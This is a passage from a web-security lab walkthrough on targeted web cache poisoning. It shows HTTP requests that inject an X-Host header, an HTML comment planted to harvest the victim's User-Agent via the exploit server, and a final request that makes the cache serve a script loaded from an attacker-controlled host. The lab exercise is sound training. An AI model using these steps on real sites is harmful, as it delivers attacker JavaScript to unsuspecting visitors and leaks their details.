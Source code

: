 And in the response we see that the response is cached. So we try to make another request on behalf of a victim user and we should get the redirect returned from the cache, and later our js payload is returned and executed in the browser.

### PRACTITIONER Lab: Targeted web cache poisoning using an unknown header
The origin server returns `Vary: User-agent` header to the caching server (and we later see it in the response because the caching server does not remove the `Vary` header from the response) which means that the origin server asks the caching server to use the value of `User-Agent` header in its cache key

To test that the User-Agent is used in the cache key we can modify the value of User-Agent header and see if the response is returned from the cache or not e.g. by looking into the `X-cache: miss`

So we add cache buster (randomasdfsdf) to User-Agent header and send the request:
```bash
GET / HTTP/1.1
Host: 0a28003904726084843378a7009700ca.h1-web-security-academy.net
Cookie: session=4fixngCBm1ojNle3udbAEmUaiOO8HBbO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0 randomasdfsdf
```
And in the response we see `X-Cache: miss` which means that it was not returned from the cache and it cached a new response for this User-Agent header that ends with the cache buster. Which proves that the User-Agent header is part of the cache-key.

So we run the Param miner to search for other headers that can change the response from the server.
```bash
Initiating header bruteforce on 0a28003904726084843378a7009700ca.h1-web-security-academy.net
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: x-host~%h:%s
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: origin~https://%s.%h
Identified parameter on 0a28003904726084843378a7009700ca.h1-web-security-academy.net: via
```
In the result amongst others we get `x-host` header

So we make a request with `X-Host: VVVV` header and search in the response for `VVVV`
The value of X-host is reflected on the page in the script src tag
```bash
<script type="text/javascript" src="//VVVV/resources/js/tracking.js"></script>
```

So we remove the cache buster from User-Agent header and poison the cache

The victim still doesn't hit the cache, this is because they have a different User-Agent and User-Agent is part of the cache key. Therefore we need to figure out the User-Agent of the victim

it's interesting that we can create a new blog comment on the blog and the html is allowed in the body of the new comment 
We can therefore create a new comment with the following text: `<img src="exploit-server.com" />`and then check `User-Agent` of the victim in the logs on the exploit server

So we now know the User-Agent of the victim so we send a new request with the User-Agent of the victim
```bash
GET / HTTP/1.1
Host: labid-web-security-academy.net
x-host: exploit-id.exploit-server.net
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```
And in the response we get:
```bash
X-Cache: miss
...
<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```